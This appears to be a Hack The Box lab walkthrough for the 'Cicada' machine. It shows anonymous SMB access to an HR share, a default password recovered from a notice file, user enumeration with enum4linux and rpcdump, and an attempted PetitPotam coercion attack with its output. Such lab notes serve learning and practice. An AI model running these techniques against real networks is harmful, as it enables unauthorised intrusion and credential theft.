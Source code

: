 `smbclient --no-pass //cicada.htb/HR`
```powershell
Try "help" to get a list of possible commands.  
smb: \> ls  
 .                                   D        0  Thu Mar 14 17:59:09 2024  
 ..                                  D        0  Thu Mar 14 17:51:29 2024  
 Notice from HR.txt                  A     1266  Wed Aug 28 23:01:48 2024  
  
               4168447 blocks of size 4096. 310287 blocks available
smb: \> get "Notice from HR.txt"
```

`cat "Notice from HR.txt"`
```
...  
Welcome to Cicada Corp! We're thrilled to have you join our team. As part of our security protocols, it's essential that you change your default password to something unique and secure.  

Your default password is: Cicada$M6Corpb*@Lp#nZp!8  
...
Best regards,  
Cicada Corp
```

so, our password is probably "Cicada$M6Corpb*@Lp#nZp!8"
Let's look for a username. we saw `hostmaster` before as the domain support email
- tried on everything, probably isnt an actual email.


`enum4linux cicada.htb -U`
```
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
```

`impacket: rpcdump.py -p135 10.10.11.35 | grep -E "MS-EFSRPC|MS-RPRN|MS-PAR"`
```
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 
``` 

May be vulnerable to *PetitPotam*:
`./PetitPotam.py 10.10.16.88 10.10.11.35`
```  
Trying pipe lsarpc  
[-] Connecting to ncacn_np:10.10.11.35[\PIPE\lsarpc]  
[+] Connected!  
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e  
[+] Successfully bound!  
[-] Sending EfsRpcOpenFileRaw!  
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!  
[+] OK! Using unpatched function!  
[-] Sending EfsRpcEncryptFileSrv!  
Something went wrong, check error status => SMB SessionError: code: 0xc00000b0 - STATUS_PIPE_DISCONNECTED - The specified named pipe is in the disconnected state.
```

---